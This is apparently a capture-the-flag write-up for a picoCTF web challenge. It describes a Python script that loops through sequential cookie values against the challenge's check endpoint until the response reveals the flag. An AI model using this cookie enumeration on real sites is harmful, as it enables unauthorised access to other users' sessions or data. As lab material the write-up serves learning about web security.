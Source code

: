 ## description
Who doesn't love cookies? Try to figure out the best one.

## solution
we see the page on which we can write a flag and get a response 
if we check the cookies after writing anything we can the value of the cookie is enumerate just like 1,2,3, etc. 
probably by changing the value of the cookie we will find out the cookie 
for this reason i  created script in python 
```python 
import requests  
  
session = requests.session()  
  
for x in range(28):  
    response = session.get('http://mercury.picoctf.net:xxxxx/check', cookies={'name': str(x)})  
    solution = response.text.find('pico')  
    if solution != -1:  
        print(response.text[solution:response.text.find('}')+1])
```
it prints the response which include "pico" - the flag